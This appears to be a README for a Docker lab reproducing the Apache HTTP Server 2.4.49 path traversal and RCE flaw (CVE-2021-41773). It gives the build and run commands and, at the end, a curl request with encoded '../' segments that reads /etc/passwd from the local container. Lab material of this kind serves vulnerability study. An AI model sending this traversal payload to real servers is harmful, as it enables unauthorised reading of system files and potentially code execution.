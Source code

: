 # Path Traversal and Remote Code Execution in Apache HTTP Server 2.4.49 (CVE-2021-41773)

[中文版本 (Chinese Version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

A flaw was discovered in the path normalization logic of Apache HTTP Server 2.4.49.  
An attacker could exploit this vulnerability to perform a path traversal attack and map URLs to files outside the expected document root.

If the files outside these directories are not protected by the default configuration (`Require all denied`), attackers can successfully access them.  
Moreover, if CGI scripts are enabled for the aliased paths, it could further lead to **remote code execution (RCE)**.

## References
- [Apache HTTP Server Security Advisory](https://httpd.apache.org/security/vulnerabilities_24.html)
- [PoC by ptswarm (Twitter)](https://twitter.com/ptswarm/status/1445376079548624899)
- [PoC by HackerGautam (Twitter)](https://twitter.com/HackerGautam/status/1445412108863041544)
- [PoC by snyff (Twitter)](https://twitter.com/snyff/status/1445565903161102344)

---

## Vulnerable Environment

Build and run the vulnerable Apache HTTP Server environment using the following commands:

```bash
docker build -t apache-cve-2021-41773 .
```
![](1.png)

```bash
docker run -d -p 8080:80 --name apache-41773 apache-cve-2021-41773
```
![](2.png)

```bash
curl -v http://127.0.0.1:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
![](3.png)
